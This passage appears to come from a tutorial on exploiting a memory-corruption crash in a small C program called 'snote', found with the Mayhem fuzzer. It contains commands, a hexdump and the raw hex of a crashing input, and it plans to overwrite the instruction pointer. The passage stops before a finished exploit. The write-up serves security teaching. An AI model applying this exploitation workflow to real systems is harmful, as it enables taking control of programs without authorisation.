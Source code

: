 We see that the target does have DEP and ASLR ([Position-Independent Executable](https://en.wikipedia.org/wiki/Position-independent_code) - aka PIE) enabled but crucially appears to have [fortify](https://access.redhat.com/blogs/766093/posts/3606481) and [StackGuard](https://access.redhat.com/blogs/766093/posts/3548631) off - note these happen to be the default settings of gcc as packaged for debian stable today!

Based on the above, that means we should be able to get RIP and have arbitrary control. Let's try it out:

Let's sync our testcases:

```sh
$ mayhem sync .
Downloaded: Mayhemfile.
Downloading testsuite.tar: 530.5 KiB |            #              | Elapsed Time: 0:00:01 409.0 KiB/s
Extracting tests 260 of 260 |#######################################################| Time:  0:00:00
Target synced at: '.'.
```

Let's checkout our testcase:
```
$ hexdump -C testsuite/841a4654bbe73a3681b69e6c0f249b4dac5ff2dd41f3d1088b02239d7c9de5c2
00000000  73 65 63 72 5e ad 6f 6f  69 81 6f a7 6f 6f 73 6f  |secr^.ooi.o.ooso|
00000010  6f 6f 6f 6f 17 6f 6f 6f  6f 6f 6f 6f 63 6f 81 6f  |oooo.oooooooco.o|
00000020  a7 6f 6f 73 6f 6f 6f 6f  6f 17 6f 6f 6f 6f 6f 6f  |.oosooooo.oooooo|
00000030  6f 63 6f 72 6f b1 82 6f  72 6f 6f 8a 6f 6f 6f 6f  |ocoro..oroo.oooo|
00000040  6f 6f 6f 5f 6f 6f 6f 6f  60 08 65 2d cf a6 55 00  |ooo_oooo`.e-..U.|
00000050  fa 00 00 fa 6f 6f 6f 6f  6f 6f 6f 73 6f 6f 6f 6f  |....ooooooosoooo|
00000060  6f 5f 6f 6f 6f 6f 6f 6f  6f 6f e8 6f 6f 6f 6f 70  |o_oooooooo.oooop|
00000070  53 6f 6f 6f 6f 6f 6f 6f  6f 73 6f 6f 6f 6f 6f 17  |Soooooooosooooo.|
00000080  6f 6f 6f 6f 53 6f 6f 6f  6f 50 6f 6f 6f 6f 6f 6f  |ooooSooooPoooooo|
00000090  6f 6f 6f 6f 6f 6f 6f 6f  6f 63 6f                 |oooooooooco|
0000009b
```

And let's try running it against our target:

```
$ cp testsuite/841a4654bbe73a3681b69e6c0f249b4dac5ff2dd41f3d1088b02239d7c9de5c2 poc
$ docker run -v `pwd`/poc:/input -it ethan42/snote:3 /snote subject /input
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU
$ dmesg | grep snote
[Tue Apr  9 05:17:01 2024] traps: snote[842557] general protection fault ip:55c6f99ac29d sp:7ffd0a7fe7d8 error:0 in snote[55c6f99ac000+1000]
```

The issue reproduces! Let's put these bytes in a script and modify the IP bytes:

```
$ xxd -c 0 -p poc
736563725ead6f6f69816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f726fb1826f726f6f8a6f6f6f6f6f6f6f5f6f6f6f6f6008652dcfa65500fa0000fa6f6f6f6f6f6f6f736f6f6f6f6f5f6f6f6f6f6f6f6f6fe86f6f6f6f70536f6f6f6f6f6f6f6f736f6f6f6f6f176f6f6f6f536f6f6f6f506f6f6f6f6f6f6f6f6f6f6f6f6f6f6f636f
```
